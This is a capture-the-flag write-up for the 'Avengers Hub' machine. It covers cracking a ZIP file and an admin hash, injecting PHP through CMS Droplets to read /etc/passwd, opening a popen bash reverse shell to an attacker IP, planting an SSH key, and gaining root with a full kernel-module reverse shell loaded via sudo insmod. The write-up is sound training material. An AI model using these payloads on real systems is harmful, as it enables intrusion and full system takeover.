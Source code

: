 # CTF Write-Up: Avengers Hub - Hackifinity Battle - Hard

## Step 1: Target Enumeration

The first step is to locate the target and perform an Nmap scan to check for open and hidden ports.

## Step 2: Directory and File Search

Using ffuf, we perform a directory and file search on the target. The most interesting discovery is a **breakglass.zip** file, which is protected by a password.

## Step 3: Cracking the ZIP File

We attempt to crack the ZIP file password using fcrackzip with the RockYou wordlist:
```cmd
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt breakglass.zip
```
After a short while, we successfully crack the password. Inside the ZIP file, we find a hashed admin password.

## Step 4: Cracking the Admin Password

We successfully crack the hashed password, which is revealed to be: **securepassword**. Using this password, we gain admin access to the CMS.

## Step 5: Exploring the CMS for Exploits

We look around the CMS and find few ways to gain a reverse shell to the machine. My approach after reading about the cms is to use **Droplets** function that allows to inject PHP code.
![avenger writeup1](https://github.com/user-attachments/assets/1b0d353c-f4fc-4f71-90bf-593d8658d4de)

## Step 6: Bypassing Disabled PHP Functions

However, after multiple attempts, we realize that some PHP functions are disabled. We enumerate the disabled functions using:
```php
echo ini_get('disable_functions') . "\n";
$zmienna = file_get_contents('/etc/passwd');
echo "<pre>$zmienna</pre>";
```
#### Disabled Functions:
```cmd
shell_exec, exec, passthru, system, proc_open, expect_popen
```
## Step 7: Crafting the Reverse Shell

We bypass the restrictions by crafting a PHP reverse shell:
```php
$ip = '10.8.26.132';
$port = 1234;
$handle = popen("bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'", 'r');
pclose($handle);
```
![avenger writeup2](https://github.com/user-attachments/assets/acf0facb-eaf9-4ba0-b8f3-3ec9e3166182)

Then, we create a page, and insert the droplet into this page: 
![avengers writeup3](https://github.com/user-attachments/assets/36b22613-7c70-497a-86af-96e470da5c60)

Now we open the page and we had received a **reverse shell as www-data**!
![avengers writeup](https://github.com/user-attachments/assets/3d5608e8-4884-40a4-82a1-0820e57c17a0)

## Step 8: Gaining User Privileges

After further enumeration, we find write access to the SSH authorized keys of user Void, who owns the user.txt flag.

We inject our public SSH key, allowing us to connect as user Void:
```cmd
ssh -i id_rsa void@target_ip
```
![writeup](https://github.com/user-attachments/assets/894cb1e8-e96d-4cd2-b5e4-05c0952f31e8)

### 🎉 Now, we have user access!

![writeup2](https://github.com/user-attachments/assets/27a6a83d-c2b8-49db-aaab-2bff4aa70766)

 
## Step 9: Escalating to Root with a Kernel Module

We check for sudo permissions:
```cmd
sudo -l
```
We discover permission to execute /sbin/insmod, which allows us to load a kernel module (.ko file).

## Step 10: Creating the Malicious Kernel Module

We create cyberavengers.c on the target:
```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/kthread.h>
#include <linux/delay.h>

#define REMOTE_IP "10.20.20.20"
#define REMOTE_PORT "8888"

static int reverse_shell_thread(void *data)
{
    char *argv[] = { "/bin/bash", "-c",
        "bash -i >& /dev/tcp/" REMOTE_IP "/" REMOTE_PORT " 0>&1", NULL };
    char *envp[] = { "PATH=/usr/bin:/bin", NULL };

    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    return 0;
}

static int __init rev_init(void)
{
    printk(KERN_INFO "Reverse shell module loaded\n");
    kthread_run(reverse_shell_thread, NULL, "rev_shell");
    return 0;
}

static void __exit rev_exit(void)
{
    printk(KERN_INFO "Reverse shell module unloaded\n");
}

module_init(rev_init);
module_exit(rev_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("CTF Participant");
MODULE_DESCRIPTION("Kernel module reverse shell");
```
**Creating a Makefile for Compilation:**
We create a Makefile:
```make
obj-m += cyberavengers.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
## Step 11: Compile and Load the Malicious Kernel Module

1. Compile the module on the target:
```cmd
make
```
3. Set up a listener on the attacker machine:
```cmd
nc -lvnp 8888
```
3. Load the malicious kernel module:
   
```cmd
sudo /sbin/insmod cyberavengers.ko
```
**We now have a root reverse shell on our listener!**


